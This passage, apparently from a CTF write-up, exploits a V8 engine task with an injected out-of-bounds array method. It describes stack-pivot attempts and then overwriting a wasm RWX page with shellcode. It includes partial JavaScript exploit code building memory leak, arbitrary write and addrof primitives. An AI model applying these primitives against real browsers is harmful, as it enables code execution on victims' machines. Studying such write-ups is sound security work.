 Notice that the Array and object in `addrof` should not be the same as the one in read/write primitive, or else it will cause some problem.

With all the primitives we have we can start pwning the service. At first we tried to leak the libc address and overwrite a JSFunction's function pointer to somewhere in `setcontext`, so later when we call the function we can pivot the stack and do the ROP attack. However we found that in the latest version of the Chrome browser there are some weird check while calling the JSFunction and thus we failed to jump to our target address.

Fortunately there's still one way to achieve our goal, and that is wasm. To be brief, the compiled wasm code are placed in a RWX page. So if we can locate the RWX page, we can overwrite the code into our shellcode and achieve code execution in the Chrome browser ! With [this helpful link](https://www.jaybosamiya.com/blog/2019/01/02/krautflare/) we're able to jump to our own shellcode by just copy-and-paste the wasm exploit code and adjust some offset, nice :)

Exploit:


```javascript
function pwn() {
    let conva = new ArrayBuffer(8); // 8 bytes
    let convi = new Uint32Array(conva);
    let convf = new Float64Array(conva);

    let fti = (f) => {  // <-- take a float
        convf[0] = f;
        let b = BigInt(convi[0]) + (BigInt(convi[1]) << 32n);
        return b;
    }

    let itf = (i) => {  // <-- take a BigInt
        convi[0] = Number(i&0xffffffffn);
        convi[1] = Number(i>>32n);
        return convf[0];
    }
    
    /* pwn start from here */
    
    var leakb = new Array(1.1,2.2,3.3);
    var b = new ArrayBuffer(100);
    var arr_buf_map = leakb.oob();

    function leak(addr){
        let a = new Array(1.1,2.2,3.3, 4.4); // for changing objA to array buffer
        let objA = {"a":itf(1000n), "c":itf(BigInt(addr))}; // "a" for buffer length, "c" for address
        a.oob(arr_buf_map);
        let test = new Float64Array(objA,0,100);
        return fti(test[0]);
    }

    function write(addr, val){
        let a = new Array(1.1,2.2,3.3, 4.4); // for changing objA to array buffer
        let objA = {"a":itf(1000n), "c":itf(BigInt(addr))}; // "a" for buffer length, "c" for address
        a.oob(arr_buf_map);
        let test = new Float64Array(objA,0,100);
        test[0] = itf(BigInt(val));
    }

    function addrof(obj){
        let z = new Array(1.1,2.2,3.3); // for changing objZ to array buffer
        let objZ = {"a":itf(1000n), "b":{"c":obj}}; // for leaking object addr
        z.oob(arr_buf_map);
        let shit = new Float64Array(objZ,0,100);
        addr_low = fti(shit[2])>>56n;
```